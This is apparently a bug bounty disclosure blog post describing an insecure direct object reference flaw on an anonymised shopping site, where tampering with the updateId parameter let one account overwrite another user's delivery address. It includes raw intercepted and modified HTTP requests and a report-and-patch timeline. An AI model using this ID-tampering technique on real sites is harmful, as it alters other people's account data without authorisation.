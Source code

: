 ```yaml
---
layout: post
title: How I was able to update any user's address
---
```

## Overview

It was the same program as [How I bypassed OTP mechanism used for updating Sensitive Information](https://vj0shii.github.io/bypass-otp-mechanism-on-updating-sensitive-information/)

## Scenario

There was a Address book section inside the application where the user can add a number of addresses for the product delivery, whenever a user adds a new address to his/her account there is a id alloted to that which was in simple numeric format, when a user updates the address, the id is sent with the request and the address is updated, `updateid` parameter in below request

**Address Update Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=1234567&submit_address=Save+Address&postcode=560025&firstname=Overtake&lastname=nk&mobile=1223456789&street=ZmtzbnZhag%3D%3D&street1=fjkwbjkwb&landmark=jbkjb&city=Bengaluru&region=Karnataka&country_id=IN
```

## Where is the problem in this flow

The problem occurs when the address is just updated on the basis of the ID number which can be tampered from client side, the application was not validating that if the user has access to update the address with that ID and trusts the user input and updates it

## Exploitation

I created two test accounts test1 & test2, let's say the address_id for user test1 is 1111111 & for user test2 it is 2222222, go to the address book in test1 account, clicked on edit button, filled the update form and clicked on Save then intercepted the request with burp suite

**Original Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=1111111&submit_address=Save+Address&postcode=123456&firstname=Overtake&lastname=Test&mobile=1223456789&street=Test&street1=Test&landmark=jbkjb&city=Test&region=Test&country_id=IN
```

I tampered the request and changed the  `updateid` parameter value to 2222222

**Modified Request**

```
POST /customer/EditAddress/ HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 288
Connection: close
Cookie: --COOKIES--

csrf_token=--CSRFTOKEN--&updateId=222222&submit_address=Save+Address&postcode=123456&firstname=Overtake&lastname=Test&mobile=1223456789&street=Test&street1=Test&landmark=jbkjb&city=Test&region=Test&country_id=IN
```

Then check the address in test2 Address book, the address of test2 account is updated

The bug was reported to the team and patched successfully

**Time Frame**

Initial Report: 26-May-2020

First Response: 27-May-2020

Patch Released: 2-June-2020
